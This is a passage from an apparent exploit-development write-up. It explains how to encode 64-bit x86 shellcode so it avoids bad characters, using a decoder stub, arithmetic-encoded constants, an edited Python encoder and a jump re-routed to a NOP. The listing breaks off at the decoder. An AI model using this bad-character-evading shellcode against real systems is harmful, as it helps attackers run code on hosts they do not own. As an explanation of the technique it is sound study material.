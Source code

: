 ```
fistp dword [rax+rcx*4]
loop _decodeloop
jmp _a0
```

There was, however, a huge problem. The instruction `jmp _decoder` generated a bad char: `0x40`. This is because it has to jump over two times 32 bytes of data to reach the decoder, which is exactly 64 bytes. However, the shellcode is only 31 bytes long, while I store 32 bytes. That means that the last byte is redundant! I exploited this fact by making this final byte a NOP. But because it is used in the decoding process, I had to modify `encode.py` again. 

```python
while len(data) % 4:
    #data += "\xc3"
    data += "\x8f"  # found by trial & error ;)
```

This modifies the two last constants:

```
_a7 dd 0x90101120
...
_b7 dd 0xfef4fe3f
```

I switched them around, so that the last byte of _b7 would be the 0x90 byte. Then, I could jump there:

```
jmp _b7+3           ; assembles to eb 3f -> no more badchars!

...
_a7 dd 0xfef4fe3f
...
_b7 dd 0x90101120   ; this was 0xfef4fe3f (little endianess)
```

The working shellcode now looks like this:

```
bits 64

_start:
_stage0:                ; stage0 will carve out stage1 
xor ecx,ecx
jmp _b7+3               ; jump to the NOP, avoiding a bad char.

_a0 dd 0x11101010
_a1 dd 0x2b1f1520
_a2 dd 0x10111a82
_a3 dd 0x89101010
_a4 dd 0x10101110
_a5 dd 0x11101010
_a6 dd 0x10101010
_a7 dd 0xfef4fe3f

_b0 dd 0x3fb02138
_b1 dd 0x3f3f3f3f
_b2 dd 0xf4fe3ffd
_b3 dd 0xfe37f2a0
_b4 dd 0x37f4fee7
_b5 dd 0xfe863887
_b6 dd 0x3ff19ff5
_b7 dd 0x90101120

_decoder:
xor ebx,ebx

```